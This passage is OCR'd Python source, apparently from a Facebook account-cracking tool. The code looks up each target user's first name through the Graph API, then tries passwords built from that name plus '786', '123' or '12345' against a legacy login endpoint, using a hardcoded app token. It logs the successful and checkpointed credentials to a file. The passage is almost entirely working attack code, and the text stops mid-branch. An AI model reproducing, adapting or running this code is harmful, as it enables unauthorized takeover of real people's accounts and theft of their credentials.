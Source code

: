 	print "\033[1;96m[+] \033[1;93mTotal IDs \033[1;91m: \033[1;97m"+str(len(id))
	jalan('\033[1;96m[✺] \033[1;93mStarting \033[1;97m...')
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;96m[\033[1;97m✸\033[1;96m] \033[1;93mCracking \033[1;97m"+o),;sys.stdout.flush();time.sleep(1)
	print
	print('\x1b[1;96m[!] \x1b[1;93mTo Stop Process Press CTRL Then Press z')
	print 42*"\033[1;96m="
	
			
	def main(arg):
		global cekpoint,oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass
		try:
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
			b = json.loads(a.text)
			pass1 = b['first_name'] + '786'
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q = json.load(data)
			if 'access_token' in q:
				print '\x1b[1;92m[Done] \x1b[1;92m ' + user  + ' \x1b[1;92m | \x1b[1;92m ' + pass1 + ' ⚡ ' + b['name']
				oks.append(user+pass1)
			else:
				if 'www.facebook.com' in q["error_msg"]:
					print '\x1b[1;36;40m[CHECKPOINT] \x1b[1;97m ' + user  + ' \x1b[1;36;40m|\x1b[1;97m ' + pass1 + ' ⚡ ' + b['name']
					cek = open("out/CP.txt", "a")
					cek.write(user+"|"+pass1+"\n")
					cek.close()
					cekpoint.append(user+pass1)
				else:
					pass2 = b['first_name'] + '123'
					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load(data)
					if 'access_token' in q:
						print '\x1b[1;92m[DONE] \x1b[1;92m ' + user  + ' \x1b[1;92m | \x1b[1;92m ' + pass2 + ' ⚡ ' + b['name']
						oks.append(user+pass2)
					else:
						if 'www.facebook.com' in q["error_msg"]:
							print '\x1b[1;36;40m[Sher Cp] \x1b[1;97m ' + user  + ' \x1b[1;36;40m|\x1b[1;97m ' + pass2 + ' ⚡ ' + b['name']
							cek = open("out/CP.txt", "a")
							cek.write(user+"|"+pass2+"\n")
							cek.close()
							cekpoint.append(user+pass2)
						else:
							pass3 = b['first_name'] + '12345'
							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							q = json.load(data)
							if 'access_token' in q: